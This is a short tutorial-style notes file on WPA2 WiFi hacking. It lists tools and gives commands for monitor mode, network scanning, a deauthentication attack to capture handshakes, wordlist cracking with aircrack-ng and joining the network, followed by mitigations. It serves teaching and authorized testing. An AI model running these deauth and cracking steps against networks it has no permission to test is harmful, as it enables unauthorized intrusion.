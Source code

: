 
# Intro to WiFi Hacking Notes
- Notes by Anthony Picarello (BluP3gu1n)

## **Do not use these techniques on networks you are not given permission to attack, you will get in trouble**


### Tools
	- Aircrack-ng Suite
	- WiFi Pineapple
	- FlipperZero
	- WiFi Adapter
	- WiFi Cantenna / Extender
	- WiGLE
	- hashcat
	- cewl
	- crunch

### WPA2 Attack Methodology 

1. Get WiFi Adapter online in Kali
	1. Install Drivers (Alfa WiFi Card steps below)
	    1. Install Linux Kernel Headers
	    ```bash
	    sudo apt-get install linux-headers-$(uname -r)
	    ```
	    2. Clone GitHub package to /opt folder
	    ```bash
	    cd /opt
	    sudo git clone https://github.com/morrownr/8812au-20210629.git
	    ```
	    3. Run script
	    ```bash
	    cd /opt/8812au-20210629
	    sudo ./install-driver.sh
	    ```
	    4. Type 'No' when asked to change settings and 'Yes' to reboot
	    5. After reboot Alfa Adapter should light up and should be visible with the following command:
	    ```bash
	    iwconfig
	    ```
	2. Put adapter into monitor mode
	    1. Need to run airmon-ng with check-kill option:
	    ```bash
	    sudo airmon-ng check kill
	    sudo airmon-ng start <interface>
	    ```
2. Scan WiFi networks
    ```bash
    sudo airodump-ng <interface>
    ```
	1. Need to Identify the Following Info:
		1. BSSID (Access Point MAC Address)
		2. Channel number
		3. Client MAC Address
		4. Channel number
		5. Potential passwords
3. Launch DeAuth Attack on Client while listening to traffic
	1. Traffic can be captured with either airodump or wireshark
	2. Run aireplay
		1. Make sure to send a small number of deauth packets to capture handshake
	```bash
	sudo aireplay-ng -0 1 -a <BSSID> -c <Client mac (Station)> <name of interface> 
	```
	3. Stop traffic collection
4. Crack WiFi password
	1. Use aircrack-ng or hashcat`
		1. Run against a common wordlist (rockyou.txt) or generate your own wordlist (cewl, crunch or manually)
     	```bash
      	sudo aircrack-ng -w /path/to/wordlist <name of .cap file> 
      	```
5. One password is obtained, get on the network
	1. Need to restart network manager service
   		```bash
     		sudo ifconfig <interface> up
		sudo service NetworkManager restart
     		```
	2. Connect
	3. Complete additional objectives


### Mitigation's for WiFi attacks

- Use up-to-date encryption (WPA3)
- Use long and complex passwords not tied to anything in your personal life
- Have an isolated guest network for visitors
- Use a VPN when on public WiFi with others
- Turn off WiFi on phone when out and about
- Check and double check before connecting to a WiFi network

### Links

- Alfa WiFi adapter: https://www.amazon.com/Network-AWUS036ACS-Wide-Coverage-Dual-Band-High-Sensitivity/dp/B0752CTSGD/ref=sr_1_4

- Drivers for WiFi adapter: https://docs.alfa.com.tw/Support/Linux/RTL8811AU/

- Max Vision video: https://www.youtube.com/watch?v=cO1LRhcImSc

- Darknet Diaries Episode: https://darknetdiaries.com/episode/85/

